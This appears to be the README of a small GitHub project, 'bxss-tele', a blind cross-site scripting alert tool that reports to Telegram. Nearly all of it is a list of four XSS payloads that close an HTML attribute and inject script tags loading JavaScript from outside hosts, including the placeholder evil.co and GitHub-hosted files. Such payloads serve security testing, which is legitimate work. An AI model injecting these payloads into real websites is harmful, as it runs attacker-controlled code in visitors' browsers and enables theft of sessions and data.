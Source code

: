 # bxss-tele
Blind XSS Alert Telegram

# Payloads
```"><script src="http://evil.co/bxss.js"></script>``` \
```"><script src=http://user.github.io/bx.js></script>``` \
```"><script src="https://raw.githubusercontent.com/username/bxss-tele/master/bxss.js">``` \
```"><script>$.getScript("//evil.co/bxt.js")</script>```
